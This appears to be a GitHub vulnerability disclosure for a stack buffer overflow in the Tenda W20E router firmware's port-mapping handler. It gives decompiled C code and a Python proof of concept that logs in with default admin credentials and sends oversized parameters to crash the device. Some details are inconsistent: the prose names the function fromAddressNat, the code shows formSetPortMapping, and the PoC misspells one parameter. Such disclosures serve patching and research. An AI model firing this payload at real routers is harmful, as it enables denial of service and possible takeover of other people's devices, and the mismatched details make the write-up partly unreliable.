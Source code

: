 ## * Tenda W20E stack vulnerability

### * Version

V15.11.0.6 (US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC)

### * Firmware
[https://www.tenda.com.cn/download/detail-2707.html](https://www.tenda.com.cn/download/detail-2707.html)




### * Vulnerability Detail

In function fromAddressNat, the content obtained by the program from the parameter "portMappingServer", "portMappingProtocol", "portMappingWan", "porMappingtInternal"
and  "portMappingExternal" are passed to pcVar1, pcVar3, pcVar4, pcVar5, and pcVar6, 
and then the pcVar1, pcVar3, pcVar4, pcVar5, and pcVar6 are directly copied into the sMibValue stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formSetPortMapping(webs_t wp,char_t *path,char_t *query)

{
  char *pcVar1;
  int iVar2;
  char *pcVar3;
  char *pcVar4;
  char *pcVar5;
  char *pcVar6;
  int iVar7;
  char sNetctlParm [32];
  char sMibName [32];
  char sMibValue [256];
  char_t *pWanPortRange;
  char_t *pLanPortRange;
  char_t *pWanid;
  char_t *pProtocl;
  char_t *pLanIP;
  char_t *pPortMapIndex;
  int iListNum;
  int iPortMapIndex;
  
  memset(sMibValue,0,0x100);

  pcVar1 = websGetVar(wp,"portMappingIndex","");
  iVar2 = atoi(pcVar1);
  if (iVar2 + 1 < 0x15) {
    pcVar1 = websGetVar(wp,"portMappingServer","");
    pcVar3 = websGetVar(wp,"portMappingProtocol","");
    pcVar4 = websGetVar(wp,"portMappingWan","");
    pcVar5 = websGetVar(wp,"porMappingtInternal","");
    pcVar6 = websGetVar(wp,"portMappingExternal","");
    sprintf(sMibValue,"%s;%s;%s;%s;%s;%d",pcVar4,pcVar6,pcVar5,pcVar1,pcVar3,1); //here is overflow
    sprintf(sMibName,"adv.virtualser.list%d",iVar2 + 1);
    SetValue(sMibName,sMibValue);
    GetValue("adv.virtualser.listnum",sMibValue);
    iVar7 = atoi(sMibValue);
    log_debug_print("formSetPortMapping",0x52,2,0x41,"index = %d, listnum = %d",iVar2,iVar7);
  ...
}
```

### * POC
```python
import requests

cmd  = b'portMappingIndex=5&portMappingServer=' + b'A' * 400 
cmd += b'&portMappingProtocol='+ b'A' * 400
cmd += b'&portMappingWan='+ b'A' * 400
cmd += b'&porMappingtInternal=' + b'A' * 400
cmd += b'&portMappingExterna=' + b'A' * 400


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/setPortMapping/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
